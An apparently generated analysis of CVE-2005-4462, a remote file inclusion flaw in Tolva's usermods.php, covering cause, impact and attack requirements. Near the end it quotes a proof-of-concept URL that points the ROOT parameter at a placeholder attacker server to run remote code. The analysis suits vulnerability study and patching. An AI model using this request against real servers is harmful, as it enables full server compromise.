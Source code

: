 Based on the provided information, here's an analysis of CVE-2005-4462:

**Root Cause of Vulnerability:**

*   The vulnerability stems from a Remote File Inclusion (RFI) flaw in the `usermods.php` file of the Tolva PHP website system. The `$ROOT` variable, which is used in an `include()` statement, is not initialized and is directly taken from user-supplied input without any sanitization.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The application directly includes a file based on user-controlled input, specifically the `ROOT` parameter. This allows an attacker to specify a remote URL, causing the server to fetch and execute code from an attacker-controlled location.
*   **Lack of Input Sanitization:** The application fails to validate or sanitize the user-supplied `$ROOT` parameter before using it in the `include()` function.
*   **Uninitialized Variable:** The `$ROOT` variable is not initialized by the application itself before being used in the `include()` statement.

**Impact of Exploitation:**

*   **Arbitrary Code Execution:** By including a remote PHP file, an attacker can execute arbitrary PHP code on the server. This allows for a wide range of malicious activities, including:
    *   Reading sensitive data on the server.
    *   Modifying application data.
    *   Installing backdoors or other malware.
    *   Executing system commands.
*   **Compromise of the Web Server:** Successful exploitation can lead to complete compromise of the web server and potentially the entire underlying system with the privileges of the web service.

**Attack Vectors:**

*   **HTTP GET Request:** The attack vector is an HTTP GET request where the vulnerable `usermods.php` file is accessed, and the attacker provides the malicious URL through the `ROOT` parameter.

**Required Attacker Capabilities/Position:**

*   **Network Access:** The attacker needs network access to the vulnerable web server.
*   **Remote Server:** The attacker needs to host a malicious PHP file on a publicly accessible server.
*   **Basic Web Request Knowledge:** The attacker only needs to be able to create a simple HTTP GET request to include the malicious file. No special skills are required.

**Additional Details:**

*   The vulnerability is not limited to `usermods.php`; other files within the application may also be affected.
*   The provided proof of concept URL (`http://[target]/twebs/modules/misc/usermods.php?ROOT=http://[attacker_url]`) is effective and simple.
*   The CVSS base score is 7.5, with an exploitability score of 10, reflecting that the vulnerability is easily exploitable and has a significant impact.